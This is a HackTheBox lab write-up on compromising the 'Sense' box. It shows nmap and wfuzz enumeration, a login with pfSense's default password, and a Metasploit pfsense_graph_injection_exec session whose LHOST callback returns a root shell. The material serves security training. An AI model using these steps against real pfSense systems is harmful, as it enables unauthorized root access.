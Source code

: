```yaml
---
layout: post
title:  "HackTheBox - Sense"
date:   2020-1-2 00:10:00 +0000
categories: htb
---
```

Sense was another box that you can smash out in 10 minutes you might have spare. Not much to be learnt from this one as it was very straight forward.

# Nmap scan
```
PORT STATE SERVICE VERSION
80/tcp open http lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Did not follow redirect to https://10.10.10.60/
443/tcp open ssl/https?
|_ssl-date: TLS randomness does not represent time
```
Navigating to the webserver we get shown a pfsense login page and not much else.

# Wfuzz results
```
wfuzz -c -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt --hc 404,301 https://10.10.10.60/FUZZ.txt
001197: C=200 9 L 40 W 271 Ch "changelog"
112347: C=200 6 L 12 W 106 Ch "system-users"
```
Changelog indicates the current version is vulnerable to something. system-users indicates the username 'rohit' and 'company-default' exist. Trying the username rohit and pfsense default password of 'pfsense' lets us in.

# Exploitation
Searching for an exploit with this platform returns a metasploit module that fits our needs, filling in the details we know we can run the exploit.
```
msf exploit(unix/http/pfsense_graph_injection_exec) > set RHOST 10.10.10.60
RHOST => 10.10.10.60
msf exploit(unix/http/pfsense_graph_injection_exec) > set USERNAME rohit
USERNAME => rohit
msf exploit(unix/http/pfsense_graph_injection_exec) > set LHOST tun0
LHOST => 10.10.14.6
msf exploit(unix/http/pfsense_graph_injection_exec) > exploit
```
<br>
The above exploit yields a root level shell so theres no need to extend privileges.


